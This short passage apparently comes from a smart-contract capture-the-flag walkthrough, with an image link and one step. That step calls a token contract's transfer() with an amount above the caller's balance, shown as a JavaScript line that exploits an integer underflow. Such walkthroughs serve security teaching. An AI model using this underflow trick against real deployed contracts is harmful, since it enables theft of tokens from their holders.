 call transfer(), with _value above your balance
```javascript
await contract.transfer(contract.address, 21) 
```
